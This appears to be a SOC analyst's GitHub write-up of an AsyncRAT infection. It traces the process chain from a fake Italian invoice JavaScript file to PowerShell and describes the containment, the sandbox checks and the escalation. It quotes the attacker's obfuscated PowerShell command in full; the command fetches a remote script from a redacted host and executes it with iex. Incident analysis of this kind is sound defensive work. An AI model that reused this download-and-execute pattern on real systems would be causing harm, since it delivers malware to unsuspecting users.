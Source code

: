 # incident-AsyncRAT

As a SOC analyst, I recently worked on an intriguing incident involving "Execution via PowerShell" that was flagged by CrowdStrike Falcon. The alert was related to AsyncRAT, a stealthy malware variant known for its ability to establish intermittent, non-persistent communication with a C2 server using protocols like HTTP/S or DNS. It often leverages encryption and obfuscation to evade detection, making it a particularly challenging threat to tackle.

Timeline of events observed:

HOST > winlogon.exe > userinit.exe > explorer.exe > msedge.exe > wscript.exe > powershell.exe

The command line involved in the incident was:
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noprofile -executionpolicy bypass -WindowStyle hidden -C "Set-Alias -Name mint -Value ('{0}{1}' -f 'cu','rl'); mint -useb hXXp[:]//XXXXXXXXX.XX/1.php?s=flibabc13 | &('{1}{0}' -f 'x', 'ie')"

Breaking down the command, it was observed:

Alias Obfuscation with:
string formatting (-f) to concatenate cu and rl 
curl is an alias for Invoke-WebRequest

Downloading Payload: 
The -useb flag is short for -UseBasicParsing, which simplifies the web request by avoiding the Internet Explorer engine.

Code Execution: 
The pipe |  sends the downloaded script content to iex  (short for Invoke-Expression ), executing it as PowerShell code.

Further investigation revealed that a JavaScript file was downloaded:
"C:\Windows\System32\WScript.exe" "C:\Users\USERNAME\Downloads\FatturaXXXXXXXXX.js"

Upon analyzing the URL on VirusTotal, it was confirmed as malicious. The JavaScript file was also flagged as malicious after being run in Joe Sandbox, revealing a 100% malicious behavior.

Response and escalation performed:
Fortunately, the host was already contained, and all processes related to the incident were blocked. I sent an escalation report to the client, detailing the findings and IOCs.

I also performed further investigation to trace the event's origin. I investigated the wscript.exe process using the query field to search for the JavaScript file name, "FatturaXXXXXXX.js," and discovered a log entry with a previously unseen Host URL. Analyzing this URL in Joe Sandbox showed page was not reacheble anymore and checking VirusTotal for the domain returned as 2/97 malicious. 

Interestingly, the client is an Italian company, and "fattura" means "invoice" in Italian. It appears to be part of a broader campaign targeting various countries using fake invoices to infect hosts.
